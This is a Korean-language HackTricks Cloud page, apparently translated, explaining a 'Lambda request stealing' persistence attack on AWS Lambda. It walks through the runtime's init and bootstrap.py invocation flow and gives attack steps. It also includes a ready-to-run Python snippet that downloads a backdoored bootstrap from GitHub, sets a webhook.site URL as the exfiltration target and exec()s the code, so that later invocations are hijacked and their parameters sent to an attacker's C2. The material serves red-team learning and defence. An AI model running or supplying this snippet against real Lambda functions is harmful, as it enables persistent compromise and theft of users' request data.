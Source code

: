 # AWS - Lambda 요청 훔치기

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **해킹 트릭을 공유하려면 [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하세요.**

</details>
{% endhint %}

## Lambda 흐름

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer**는 컨테이너 외부의 프로세스로, **init** 프로세스에 **호출**을 **전송**합니다.
2. init 프로세스는 포트 **9001**에서 몇 가지 흥미로운 엔드포인트를 노출합니다:
* **`/2018-06-01/runtime/invocation/next`** – 다음 호출 이벤트 가져오기
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 호출에 대한 핸들러 응답 반환
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 실행 오류 반환
3. **bootstrap.py**는 init 프로세스에서 호출을 가져오는 루프를 가지고 있으며, 이를 처리하기 위해 사용자 코드를 호출합니다 (**`/next`**).
4. 마지막으로, **bootstrap.py**는 init에 **응답**을 전송합니다.

bootstrap은 사용자 코드를 모듈로 로드하므로, 사용자 코드에 의해 수행된 모든 코드 실행은 실제로 이 프로세스에서 발생합니다.

## Lambda 요청 훔치기

이 공격의 목표는 사용자의 코드가 취약한 요청을 처리하는 **`bootstrap.py`** 프로세스 내에서 악성 **`bootstrap.py`** 프로세스를 실행하도록 만드는 것입니다. 이렇게 하면 **악성 bootstrap** 프로세스가 요청을 처리하기 위해 **init 프로세스와 통신**을 시작하고, **정상** bootstrap은 악성 프로세스를 실행 중에 **갇히게** 되어 init 프로세스에 요청을 하지 않게 됩니다.

이것은 사용자의 코드가 정상 **`bootstrap.py`** 프로세스에 의해 실행되고 있기 때문에 간단한 작업입니다. 따라서 공격자는 다음을 수행할 수 있습니다:

* **현재 호출의 가짜 결과를 init 프로세스에 전송하여**, init이 bootstrap 프로세스가 더 많은 호출을 기다리고 있다고 생각하게 합니다.
* **`/${invoke-id}/response`**에 요청을 전송해야 합니다.
* invoke-id는 [**inspect**](https://docs.python.org/3/library/inspect.html) 파이썬 모듈을 사용하여 정상 **`bootstrap.py`** 프로세스의 스택에서 얻거나, **`/2018-06-01/runtime/invocation/next`**에 다시 요청하여 얻을 수 있습니다.
* 다음 호출을 처리할 악성 **`boostrap.py`**를 실행합니다.
* 은폐를 위해 lambda 호출 매개변수를 공격자가 제어하는 C2로 전송한 후 요청을 평소처럼 처리할 수 있습니다.
* 이 공격을 위해, 시스템에서 **`bootstrap.py`**의 원본 코드를 가져오거나 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py)에서 가져와 악성 코드를 추가하고 현재 lambda 호출에서 실행하면 충분합니다.

### 공격 단계

1. **RCE** 취약점 찾기.
2. **악성** **bootstrap** 생성하기 (예: [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **악성 bootstrap 실행하기.**

이 작업을 수행하려면 다음을 실행하면 됩니다:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
더 많은 정보는 [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)를 확인하세요.

## 참고문헌

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
